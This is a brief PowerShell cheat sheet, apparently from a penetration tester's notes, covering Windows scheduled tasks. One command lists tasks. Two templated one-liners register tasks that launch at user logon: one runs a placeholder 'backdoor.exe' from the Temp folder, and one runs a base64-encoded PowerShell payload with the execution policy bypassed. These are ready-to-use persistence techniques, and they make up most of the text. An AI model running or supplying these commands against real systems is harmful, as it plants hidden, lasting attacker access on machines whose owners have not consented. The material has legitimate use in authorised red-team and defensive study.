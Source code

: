 
# pwsh
% windows, scheduled tasks

#plateform/windows #target/local #cat/RECON/SCHEDULED-TASK #tag/powershell 

## scheduled tasks - find all  
```powershell
Get-ScheduledTask | select TaskName,State
```

## scheduled tasks - launch binary at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c  <binary_full_path|C:\windows\Temp\backdoor.exe>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```

## scheduled tasks - launch powhershell encoded at user logon
```powershell
$A = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy bypass -e   <b64_payload>"; $T = New-ScheduledTaskTrigger -AtLogOn -User "<user|.\jubeaz>"; $P = New-ScheduledTaskPrincipal "<user|.\jubeaz>"; $S = New-ScheduledTaskSettingsSet; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask -Force -TaskName <task_name|jubeaz> -InputObject $D
```